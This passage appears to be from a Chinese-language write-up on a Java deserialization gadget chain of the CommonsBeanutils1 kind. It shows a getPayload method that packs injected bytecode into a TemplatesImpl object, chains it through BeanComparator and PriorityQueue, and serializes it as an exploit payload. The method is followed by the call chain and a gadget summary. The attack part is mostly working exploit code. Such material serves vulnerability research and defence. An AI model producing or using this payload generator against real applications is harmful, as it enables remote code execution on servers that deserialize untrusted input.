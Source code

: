 ```java
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }
}
```

## 调用链

```java
PriorityQueue.readObject()
    BeanComparator.compare()
            PropertyUtils.getProperty()
                PropertyUtilsBean.getProperty()
                    TemplatesImpl.getOutputProperties()
```

## 总结
 1. 利用说明:
    - `PriorityQueue`反序列化时调用`BeanComparator`的`compare`, 利用这个方法发射调用`TemplatesImpl`的`getOutputProperties`方法触发恶意类的实例化.
 2. Gadget 总结:
    - kick-off gadget: java.util.PriorityQueue#readObject
    - sink gadget: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties
    - chain gadget: org.apache.commons.beanutils.BeanComparator#compare